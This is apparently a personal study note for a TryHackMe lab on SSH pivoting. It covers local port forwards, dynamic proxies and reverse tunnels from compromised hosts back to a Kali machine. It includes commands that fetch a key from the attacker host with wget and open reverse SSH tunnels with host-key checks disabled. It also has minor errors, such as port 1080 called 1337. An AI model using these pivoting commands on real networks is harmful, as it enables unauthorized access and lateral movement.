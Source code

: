 ```yaml
---
category: Uncategorized
tags: []
---
```

### TRY THIS FIRST!
KALI: 
```bash - kali
ssh-keygen -t rsa -N ‘’ -f ~/.ssh/key
```

TARGET:
```bash - target
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -I key kali@$KALI
```

With the dynamic reverse tunnel established, edit the /etc/proxychains4.conf to use the port 1080.

---

https://tryhackme.com/room/wreath

| Kali | Vic1 | Vic2 | 
| --- | --- | --- |
| 172.16.0.20 | 172.16.0.5 | 172.16.0.10

**Forward Connections**

Creating a forward (or "local") SSH tunnel can be done from our attacking box when we have SSH access to the target. As such, this technique is much more commonly used against Unix hosts. Linux servers, in particular, commonly have SSH active and open. That said, Microsoft (relatively) recently brought out their own implementation of the OpenSSH server, native to Windows, so this technique may begin to get more popular in this regard if the feature were to gain more traction.

There are two ways to create a forward SSH tunnel using the SSH client -- port forwarding, and creating a proxy.

-   Port forwarding is accomplished with the `-L` switch, which creates a link to a **L**ocal port. For example, if we had SSH access to 172.16.0.5 and there's a webserver running on 172.16.0.10, we could use this command to create a link to the server on 172.16.0.10:

==Run on kali==
```bash - kali
ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
```

-   We could then access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 _on our own_ _attacking machine._ For example, by entering `localhost:8000` into a web browser. Using this technique we have effectively created a tunnel between port 80 on the target server, and port 8000 on our own box. Note that it's good practice to use a high port, out of the way, for the local connection. This means that the low ports are still open for their correct use (e.g. if we wanted to start our own webserver to serve an exploit to a target), and also means that we do not need to use `sudo` to create the connection. The `-fN` combined switch does two things: `-f` backgrounds the shell immediately so that we have our own terminal back. `-N` tells SSH that it doesn't need to execute any commands -- only set up the connection.  
      
-   Proxies are made using the `-D` switch, for example: `-D 1080`. This will open up port 1337 on your attacking box as a proxy to send data through into the protected network. This is useful when combined with a tool such as proxychains. An example of this command would be:

```bash - kali
ssh -D 127.0.0.1:1080 user@172.16.0.5 -fN
```

This again uses the `-fN` switches to background the shell. The choice of port 1337 is completely arbitrary -- all that matters is that the port is available and correctly set up in your proxychains (or equivalent) configuration file. Having this proxy set up would allow us to route all of our traffic through into the target network.

**Reverse Connections**  

Reverse connections are very possible with the SSH client (and indeed may be preferable if you have a shell on the compromised server, but not SSH access). They are, however, riskier as you inherently must access your attacking machine _from_ the target -- be it by using credentials, or preferably a key based system. Before we can make a reverse connection safely, there are a few steps we need to take:

```bash - kali
ssh-keygen
```

Give it a name of "./reverse"

```bash - kali
./reverse
```

![[Pasted image 20220115184520.png]]

```bash - kali
ls -l reverse*
```

![[Pasted image 20220116104411.png]]

```bash - kali
touch ~/.ssh/authorized_keys
```

```bash - kali
mousepad ~/.ssh/authorized_keys
```

```bash - kali
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty
```

Paste in the contents of reverse.pub:

The final entry in the `authorized_keys` file should look something like this:

![[Pasted image 20220115184759.png]]

Check that ssh is running:

```bash - kali
sudo systemctl status ssh
```

if not, start it:

```bash - kali
sudo systemctl start ssh
```

Transfer private key to target box (Vic1).

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```bash - target
wget http://$KALI/reverse
```


| Kali | Vic1 | Vic2 | 
| --- | --- | --- |
| 172.16.0.20 | 172.16.0.5 | 172.16.0.10

```bash - Vic1
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```

```bash - Vic1
ssh -R LOCAL_PORT:VICTIM2:VICTIM2_PORT kali@$KALI -i KEYFILE -fN
```

==Run the following on the Vic1 box (172.16.0.5)==

```bash - Vic1
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN
```

This would open up a port forward to our Kali box, allowing us to access the 172.16.0.10 webserver, in exactly the same way as with the forward connection we made before!

In newer versions of the SSH client, it is also possible to create a reverse proxy (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it:  
`ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`  

This, again, will open up a proxy allowing us to redirect all of our traffic through localhost port 1337, into the target network.

_**Note:** Modern Windows comes with an inbuilt SSH client available by default. This allows us to make use of this technique in Windows systems, even if there is not an SSH server running on the Windows system we're connecting back from. In many ways this makes the next task covering plink.exe redundant; however, it is still very relevant for older systems._

```bash - kali
ssh -N -R $TARGET:5555:127.0.0.1:5555 -p 2222 student@$TARGET
```